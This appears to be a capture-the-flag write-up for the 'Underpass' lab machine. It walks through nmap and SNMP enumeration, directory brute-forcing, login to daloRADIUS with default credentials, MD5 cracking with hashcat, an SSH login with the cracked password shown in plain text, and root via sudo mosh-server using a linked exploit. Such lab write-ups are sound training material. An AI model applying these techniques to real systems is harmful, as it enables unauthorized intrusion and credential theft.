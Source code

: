 # Underpass - total time 2 days

Nmap scan

```sql
nmap -sC -sV -p- 10.10.11.48
```

![image.png](./images/image.png)

and then i ran 

```sql
nmap -sU --top-ports 200 10.10.11.48
```

![image.png](./images/image%201.png)

I added the address to /etc/hosts:

```bash
sudo nano /etc/hosts
10.10.11.48        underpass.htb
```

After investigating what the ports were and meant i researched commands to get information out of the ports and i ran.

```sql
snmpwalk -v2c -c public 10.10.11.48
```

SNMP (Simple Network Management Protocol) collects and organizes information about devices on IP networks for monitoring and management.

The `snmpwalk` command retrieves SNMP information through chained GETNEXT requests.

Flag meanings:

- `-v2c`: Uses SNMP version 2c for improved error handling and bulk retrieval
- `-c public`: Uses 'public' as the default read-only access password

![image.png](./images/image%202.png)

After investigating what daloradius server is i found common login credentials and i tried to open the site underpass.htb/daloradius but it took no where

I ran ferofoxer, read it works better than gobuster

```sql
feroxbuster -u http://underpass.htb/daloradius -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

![image.png](./images/image%203.png)

I tried each address and underpass.htb/daloradius/app/operators/ worked, it took me to a login page where i tested the default passwords first and got access to the server (app/users/ also has login but credentials didnt work)

![image.png](./images/image%204.png)

Once inside you can see the user and password but its encrypted

![image.png](./images/image%205.png)

Running hashid on the hash to see if would give me possible hash types it game quite a few so i started from the bottom MD2 didnt work and luckly i didnt have to go down too much, MD5 worked.
and i ran

![image.png](./images/image%206.png)

```sql
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

- `-m 0`: Specifies MD5 hash mode
- `-a 0`: Sets attack mode to straight/dictionary attack
- `hash.txt`: Input file containing the hash to crack
- `/usr/share/wordlists/rockyou.txt`: Path to the wordlist file used for cracking

![image.png](./images/image%207.png)

After getting the password I can try connecting to the ssh which it worked

```sql
ssh svcMosh@underpass.htb
password:underwaterfriends
```

![image.png](./images/image%208.png)

User flag was right there with ls and cat command

Getting privilage escalation was difficult as always but extensive research i found a solution

```sql
sudo -l
```

The `sudo -l` command lists the sudo privileges for the current user, showing what commands they can run with elevated permissions.

then

```sql
sudo /usr/bin/mosh-server
```

this showed the mosh server id and port, which after researching i found an exploit https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246

![image.png](./images/image%209.png)

after using the found exploit i was finally able to gain root and get the flag

![image.png](./images/image%2010.png)